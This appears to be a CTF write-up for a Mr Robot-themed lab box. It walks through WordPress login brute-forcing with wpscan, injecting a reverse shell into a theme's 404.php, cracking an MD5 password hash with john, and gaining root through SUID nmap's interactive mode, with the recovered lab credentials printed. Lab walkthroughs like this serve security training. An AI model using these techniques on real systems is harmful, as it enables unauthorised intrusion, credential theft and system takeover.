


# [cd ../](../index.md)
# Mr Robot CTF
> Based on the Mr. Robot show, can you root this box?

# Start
## Enumeration
### Nmap
[nmap file](nmaps.txt)
Ports are: 22, 80 and 443

### Dirsearch
[dirsearch file](dirsearch.txt)  


### Further investigation
- Lets go to /robots.txt  
  U can see there is `key-1-of-3.txt`. Go to `/key-1-of-3.txt` and u got the first flag.  
  U can also see there is a `fsocity.dic` file. This is a big wordlist. Just save it with `wget` or `curl -LO`

- Just go every link u get in the dirsearch search  
   :D  
  `/Image` seems to be a blog of `user`
  `/wp-login.php` is a wordpress login page
  
- Guessing the `/wp-login.php` username  
  Try to guess the username cuz `user` or `admin` returns   

  > ERROR: Invalid username.

  So try `elliot` cuz this is a 1337 Mr R0b0t room :D

  > ERROR: The password you entered for the username elliot is incorrect.  

  Ohohooooooo the user is `elliot` and we have a [fsocity.dic](files/fsocity.dic) file.

- Cracking the `/wp-login.php`
  We have to crack `elliot` profile with `fsocity.dic` we got earlier.
  Lets shorten this wordlist
  ```
  sort -u fsocity.dic > fsocity_sorted.dic
  ```
  Now we have the shortened [fsocity_sorted.dic](files/fsocity_sorted.dic)
  
  CR4CK TH1S:
  ```
  wpscan --url http://10.10.125.176 -P fsocity_sorted.dic -U elliot
  ```
    
  Btw there is the whole wpscan [output](wpscan.txt) in case if u need it.  
  We got the CREDS!! `elliot`:`ER28-0652`  

- Logging in, getting a shell  
  So we are in elliot's profile.
  We have to find an iteresting thing we can use to get a shell.  
  We can edit the `404.php` file ( *Appearance –> Editor –> 404.php* )
  Just paste a `phpinfo();` in the beggining of the file.
    
  AAAAANND We got `php code execution` !!!!  
    
  Now we need a revshell:
    - Go to Pentestmonkey's php reverse shell on [github](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
    - Copy it and paste it to the 404.php  
      Change IP and PORT to yours!  
      
    - Go to `/404.php` while ur nc listener is set up ( `nc -lvnp 1337` )

  GOT THA SHELL BOIIIII!  
    
  We are user `daemon`

## We Are in and we need the second flag!
- Get a normal shell with 

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- The second flag is in `/home/robot/key-2-of-3.txt`
  But we cant cat it ):  
    
  If we go `/home/robot` there is a file called `password.raw-md5` and it has the raw md5 hash of `robot`'s password.  
  W3 H4V3 2 Cr4Ck 17

- Cracking the [`password.raw-md5`](files/password.raw-md5)

  ```
  john password.raw-md5 --format=Raw-MD5 --wordlist=~/tools/wordlists/rockyou.txt
  ```
  And we got the password of the `robot` user. ( `robot`:`abcdefghijklmnopqrstuvwxyz` )  
  

- Getting the second flag
  Just change user to **robot** with `su robot` and u can now cat the flag
  

## Privesc to root
- We have to search for suid executables

```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
Oh there is `/usr/local/bin/nmap`
- We can run nmap interactively with `nmap --interactive`  
  We are in the nmap shell now. Hit `h` for help.  
  We can see we are able to execute system commands with `!`  
  Just see how we are with `!id` and then `!cat /root/key-3-of-3.txt` and we got the flag!  
  

